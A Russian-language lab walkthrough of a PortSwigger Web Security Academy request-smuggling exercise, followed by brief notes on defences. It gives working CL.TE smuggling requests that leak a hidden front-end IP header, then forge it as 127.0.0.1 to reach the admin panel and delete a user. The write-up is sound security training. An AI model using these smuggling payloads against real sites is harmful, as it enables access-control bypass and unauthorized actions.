

лаба https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting
#### Использование контрабанды HTTP-запросов для выявления перезаписи интерфейсных запросов
есть панель администратора `/admin`, 
но доступно только пользователям с IP-адресом 127.0.0.1
Внешний сервер добавляет HTTP-заголовок к входящим запросам, содержащий их IP-адрес. Это похоже на `X-Forwarded-For` заголовок, но имеет другое имя.

задание
отправьте запрос на внутренний сервер, 
который раскрывает заголовок, добавленный внешним сервером.

Затем отправьте запрос на внутренний сервер, который включает добавленный заголовок, 
получит доступ к панели администратора 
и удалит пользователя `carlos`

-----


вот ориг запрос
```http
GET / HTTP/1.1
Host: 0aa300c203ab609580bd174400db0022.web-security-academy.net
Cookie: session=u9zcsGzmb5VPUj8NADOOti5p8oeuFFkU
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive


```

-----

 меняю протокол на  HTTP/1.1 и запрос также работает, отлично

далее убираю куки все - чтобы не мельтишили тут
меняю метод на POST
выключаю апдейт CL
добавляю
Content-Type: application/x-www-form-urlencoded
Content-length: 1
Transfer-Encoding: chunked


-----
сырой запрос выходит
```http
POST / HTTP/1.1
Host: 0aa300c203ab609580bd174400db0022.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 1
Transfer-Encoding: chunked

1
```

---

теперь нужно сделать два базовых запроса для определения базовых видов уязвимостей

классический запрос тест
```http
POST / HTTP/1.1
Host: 0aa300c203ab609580bd174400db0022.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 6
Transfer-Encoding: chunked

16
abc
x

```
ответ 500 Server Error: Communication timed out
ошибка  от бека - то есть фронт это пропустил
###### значит фронт слушается TE - так как при cl = 6 нет ошибки с параметрами на 10 символов


классический запрос тест
```http
POST / HTTP/1.1
Host: 0aa300c203ab609580bd174400db0022.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 6
Transfer-Encoding: chunked

0

x
```
первый ответ 200 обычный
повторный ответ "Not Found" 404
###### значит - сервер слушается только CL так как есть  Content-length сделать меньше чем в параметрах - то идет тайм аут от 500 сервер


----

значит есть рассхождение с клиенте и бэке
клиент слушается TE
сервер слушается CL

---
запрос
```http
POST / HTTP/1.1
Host: 0aa300c203ab609580bd174400db0022.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 16
Transfer-Encoding: chunked

6

33

0


```


ответ 200 обычный
тк клиент слушает 6 чанков этих - что равно 6 символов (до 0)
и отправляет беку уже все что тут есть (до 0)

а вот бек видит и слушается Content-length: 16 и принимает все - че там есть!


запрос
```http
POST / HTTP/1.1
Host: 0aa300c203ab609580bd174400db0022.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

9d

GET /admin HTTP/1.1
Host: 0aa300c203ab609580bd174400db0022.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 16

0


```

ответ 500 Server Error: Communication timed out


----
запрос
```http
POST / HTTP/1.1
Host: 0aa300c203ab609580bd174400db0022.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 120
Transfer-Encoding: chunked

6d

GET /admin HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-length: 16

0


```
ответ и первый и второй по 200 обычный!

----

долго мучался  - попросил подсказку у гпт

меняю вектор  немного 

```http
POST / HTTP/1.1
Host: 0aa300c203ab609580bd174400db0022.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test
```

ответ
первый ответ 200
второй ответ тоже 200 но с вот такое ерундой в ответе
```html
                       <h1>0 search results for 'testPOST / HTTP/1.1
X-ETaxly-Ip: 45.67.139.104
Host: 0aa300c203ab609580bd174400db0022.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer-'</h1>
```

запрос
```http
POST / HTTP/1.1
Host: 0aa300c203ab609580bd174400db0022.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 143
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-ETaxly-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1
```
ответ 200 с админкой
```html
wiener - </span>
                            <a href="/admin/delete?username=carlos">Delete</a>
                        </div>
                    </section>
```

---------

запрос
```http
POST / HTTP/1.1
Host: 0aa300c203ab609580bd174400db0022.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 141
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
X-ETaxly-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x
```
ответ 302 - карлос удален!!!



-----


------


### защита

нужно чтобы фронт и бэк одинаково определяли границы запросов

лучше использовать http/2 где нет путаницы с длиной

если http/1.1 то запрещать запросы с противоречивыми заголовками content-length и transfer-encoding

также валить соединения где возникает рассогласование

и обязательно проверять заголовок host на бэкенде даже для запросов которые пришли через прокси

и регулярно обновлять серверное по


